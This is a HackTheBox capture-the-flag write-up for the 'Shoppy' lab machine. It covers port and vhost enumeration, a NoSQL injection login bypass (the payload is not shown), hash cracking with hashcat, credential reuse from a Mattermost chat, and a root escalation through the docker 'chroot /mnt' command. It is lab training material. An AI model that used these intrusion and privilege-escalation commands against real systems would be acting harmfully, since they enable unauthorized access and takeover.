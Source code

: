 # HackTheBox Shoppy WriteUp
Machine IP: 10.10.11.180

![Ping](images/img(1).png?raw=true "Ping")

<br/>

### -> NMAP SCAN

```
sudo nmap -vvv -cSV -p0-65535 --reason -T4 10.10.11.184 -oN shoppy.nmap
```

Discovered shoppy.htb by browsing, add to /etc/hosts

![Ping](images/img(2).png?raw=true "hosts")

### -> WEB ENUM

Go to the browser and have a look at the website’s code and in general, the website look. 

![Ping](images/img(3).png?raw=true "hosts" height="500")

We don’t find anything interesting here so we run gobuster.

![Ping](images/img(4).png?raw=true "hosts")

Looks like we have a login page here to take advantage of this

![Ping](images/img(5).png?raw=true "hosts")

Figured out it’s using nosql and made it to the admin page using this injection, go to search for users and type in that query again

![Ping](images/img(6).png?raw=true "hosts")

Write any name in the input field and then click on download exports

![Ping](images/img(7).png?raw=true "hosts")

![Ping](images/img(8).png?raw=true "hosts")

The hash can be cracked using hashcat

```
hashcat -m 0 hash.txt rockyou.txt
```

![Ping](images/img(9).png?raw=true "hosts")

Now that we have the password, 

### -> FOOTHOLD

We need to do subdomain enumeration.

```
gobuster vhost --url http://shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt
```

![Ping](images/img(11).png?raw=true "hosts")

Were we have mattermost.shoppy.htb, add it to /etc/hosts

![Ping](images/img(10).png?raw=true "hosts")

Then browse the link and log in using the credentials we found

![Ping](images/img(12).png?raw=true "hosts")

After logging in we see different rooms on the left hand side we go to deploy machine section and see that we have the credentials for deploying the machine.

![Ping](images/img(13).png?raw=true "hosts")

Login via ssh as jaeger to fetch the user flag

![Ping](images/img(14).png?raw=true "hosts")

### -> ROOT

Check sudo rights
```
sudo -l
```
Here we see jaeger may deploy the /home/deploy/password-manager. Check the text of the this program and spot the following line, see the word Sample?
```
cat /home/deploy/password-manager
```
![Ping](images/img(16).png?raw=true "hosts")

Enter the master password and switch to deploy, Here we see deploy and password

```
sudo -u deploy /home/deploy/password-manager 
```

![Ping](images/img(17).png?raw=true "hosts")

Move to deploy user using these credentials 

```
su deploy
```

![Ping](images/img(18).png?raw=true "hosts")

If you went to the mattermost subdomain there’s a hint there:

![Ping](images/img(19).png?raw=true "hosts")

He’s using docker for deployment, we might find exploits going to [Check Here](https://gtfobins.github.io/#docker)

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Ping](images/img(20).png?raw=true "hosts")

Boom! Got root flag